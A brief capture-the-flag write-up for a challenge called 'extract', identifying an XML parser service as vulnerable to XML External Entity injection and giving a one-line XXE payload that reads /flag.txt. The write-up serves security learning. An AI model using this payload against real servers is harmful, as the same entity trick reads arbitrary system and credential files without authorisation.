 
## extract
### Description

> Extract This!
>
> Author: Einar Antonsen - Chabz#1587
>
> One of our agents managed to install a service on MOTHER's network. We can use it to extract secrets, but she didn't tell me how! Can you figure it out?
>
> ```
> nc extract.tghack.no 6000
> ```
>

### Analysis

It's a xml language parser, so try to [XEE(**X**ML **E**xternal **E**ntity)](https://en.wikipedia.org/wiki/XML_external_entity_attack) Injection.

### Solution

[ref](https://www.cnblogs.com/pwn2web/p/12183319.html)

```xml
<?xml version="1.0" encoding="UTF-8" ?> <!DOCTYPE ANY [<!ENTITY xxe SYSTEM "/flag.txt" >]><value>&xxe;</value>
```
